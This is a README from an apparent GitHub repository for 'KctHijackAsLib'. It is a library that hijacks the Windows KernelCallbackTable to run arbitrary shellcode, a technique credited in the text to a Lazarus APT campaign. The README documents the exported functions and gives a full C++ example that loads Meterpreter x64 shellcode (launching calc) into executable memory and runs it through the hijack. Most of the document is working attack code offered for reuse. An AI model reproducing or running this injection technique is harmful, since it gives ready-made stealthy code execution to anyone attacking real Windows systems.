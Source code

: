 ## What is This:
### This is just a better version of my older repo, i provided a cleaner code, and as a lib file, so it is easier to implement, again the idea is originally from : [North Korea’s Lazarus APT leverages Windows Update client, GitHub in latest campaign](https://blog.malwarebytes.com/threat-intelligence/2022/01/north-koreas-lazarus-apt-leverages-windows-update-client-github-in-latest-campaign/); and here is the [vx-underground paper](https://samples.vx-underground.org/APTs/2022/2022.01.27(1)/Paper/blog.malwarebytes.com-North%20Koreas%20Lazarus%20APT%20leverages%20Windows%20Update%20client%20GitHub%20in%20latest%20campaign.pdf) 

<br>

## Usage:
#### i added a Example for usage; basically you just have to link the lib using: `#pragma comment(lib , "KctHijackAsLib.lib"` and include `LibHeaders.h` in your **cpp** project, then you can use the exported functions:

- **RunViaKctHijack :** To patch the kct using a x64 trampoline shellcode, that will jump to the address you pass in, we are using `__fnDWORD (WMIsAvailableOffline && wmvcore.dll) and not __fnCOPYDATA tech`. **RunViaKctHijack** will return error code in case it occured, the returned value can be one of [these](https://gitlab.com/ORCA666/kcthijacklib/-/blob/main/Example/LibHeaders.h#L5) .
- **TriggerShellcode :** This will run `MessageBoxA` function, to trigger the shellcode, and return a empty event as a handle.
- **CleanUp :** Cleanup The Trampoline shellcode (re-patch by old bytes), the newly created KCT table, free some memory and unmap wmvcore.dll, and set memory protections back to normal.

<br>

## Example:
    #include <Windows.h>
    #include <stdio.h>
    #include "LibHeaders.h"
    #pragma comment(lib , "KctHijackAsLib.lib")

    // METERPRETER x64 CALC
    unsigned char rawData[] = {
        0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
        0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
        0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
        0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
        0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
        0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
        0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
        0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
        0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
        0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
        0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
        0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
        0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
        0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
        0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
        0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
        0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
        0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
        0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
        0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
        0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
        0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
        0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
    };

    int main() {
        DWORD Error;
        PVOID pShell = VirtualAlloc(NULL, sizeof rawData, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        memcpy(pShell, rawData, sizeof rawData);
        printf("[+] Running Shellcode On : 0x%p \n", (PVOID)pShell);
        if (!RunViaKctHijack(pShell, &Error) || Error != NO_ERROR_RETURNED) {
            printf("[!] RunViaKctHijack Failed; Error: %d \n", Error);
            return 0;
        }
        HANDLE hShell = TriggerShellcode();
        /*
        if (!CleanUp()) {
            printf("[!] CleanUp Returned -1; Error: %d \n", GetLastError());
            return 0;
        }
        */
        WaitForSingleObject(hShell, INFINITE);
        printf("[i] Press Enter To Exit ...\n");
        getchar();
        return 0;
    }





